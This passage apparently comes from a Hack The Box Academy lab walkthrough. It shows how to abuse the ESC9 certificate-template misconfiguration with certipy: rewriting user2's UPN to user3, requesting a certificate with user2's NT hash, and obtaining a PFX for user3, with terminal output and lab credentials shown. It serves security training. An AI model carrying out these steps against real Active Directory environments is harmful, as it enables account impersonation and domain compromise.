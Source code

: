 ## Question 2

### "Abuse the ESC9 misconfiguration. What is the NT hash of user3?"

To abuse `ESC9` and steal the NT hash of the user `user3`, students first need to update the `UPN` of `user2` to be that of `user3` by using the `account` command of `certipy` along with the `update` positional argument, specifying `user2` for the `-user` option and `user3` for the `-upn` option:

Code: shell

```shell
certipy account update -u blwasp@lab.local -p Password123! -user user2 -upn user3
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy account update -u blwasp@lab.local -p Password123! -user user2 -upn user3

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'user2':
    userPrincipalName                   : user3
[*] Successfully updated 'user2'
```

Afterward, students need to use the `req` command of `certipy`, specifying the template `ESC9` for the `-template` option and the previously attained NT hash `ee22ddf0f8a66db4217050e6a948f9d6` of `user2` for the `-hashes` option; students will attain a `PFX` certificate for the user `user3`:

Code: shell

```shell
certipy req -u user2@lab.local -ca lab-LAB-DC-CA -template ESC9 -hashes ee22ddf0f8a66db4217050e6a948f9d6
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy req -u 'user2@lab.local' -ca lab-LAB-DC-CA -template ESC9 -hashes ee22ddf0f8a66db4217050e6a948f9d6 

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 63
[*] Got certificate with UPN 'user3'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'user3.pfx'
```

Subsequently, students need to revert the `UPN` of `user2` to its original value (i.e., `user2`), using the `account` command of `certipy` along with the `update` positional argument, specifying `user2` for the `-user` and `-upn` options:
